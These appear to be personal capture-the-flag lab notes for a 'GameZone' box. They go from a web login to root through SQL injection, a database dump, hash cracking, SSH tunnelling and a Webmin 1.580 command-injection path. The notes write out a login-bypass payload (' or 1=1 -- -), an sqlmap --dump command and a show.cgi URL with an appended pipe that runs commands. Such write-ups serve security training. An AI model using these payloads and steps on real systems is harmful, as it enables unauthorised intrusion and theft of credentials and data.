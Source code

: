 # access
go to web
username ' or 1=1 -- -
* not sure about the extra dashes? 
intercept request with burp
save to file and run sqlmap
sqlmap -r burp_intercept.txt --dbms=mysql --dump
crack PW hash with john
get password as ---------
ssh and get user.txt

# enumerate
ss -tulpn (or --numeric-ports on netstat) and see 5 ports, listening local on 10000
use ssh tunnel to see internal web page ssh -L 8080:localhost:10000 agent47@10.10.240.73
should be able to scan through ssh tunnel? https://www.reddit.com/r/HowToHack/comments/6dg2ng/nmap_scanning_through_ssh_tunnel/
config file shows 1.580 version

# escalate
see the vuln for that version of webmin
look through script
see that I can navigate to a directory and run commands
eventually figure out I can either read root/root directly https://medium.com/@aniyazov2500/tryhackme-gamezone-1a5b13fbdf2a
or that I can run a script via http://localhost:8080/file/show.cgi/tmp/test.sh|

